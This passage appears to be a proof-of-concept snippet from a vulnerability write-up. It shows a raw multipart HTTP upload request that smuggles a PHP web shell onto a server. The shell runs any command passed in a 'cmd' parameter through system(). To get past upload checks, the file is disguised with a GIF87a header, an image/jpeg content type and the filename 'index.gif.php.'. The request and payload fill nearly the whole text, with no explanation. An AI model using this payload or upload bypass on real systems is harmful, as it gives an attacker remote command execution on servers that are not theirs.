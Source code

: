 ```http
------WebKitFormBoundaryyqgqevjtjeuKysRj
Content-Disposition: form-data; name="_token"

U55EcHxTJCO0cvMScKzD20VSsKYd9oLV8lNhKtn9
------WebKitFormBoundaryyqgqevjtjeuKysRj
Content-Disposition: form-data; name="upload"; filename="index.gif.php."
Content-Type: image/jpeg

GIF87a
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>

------WebKitFormBoundaryyqgqevjtjeuKysRj--
```

![image](imgs/shell-upload.png)
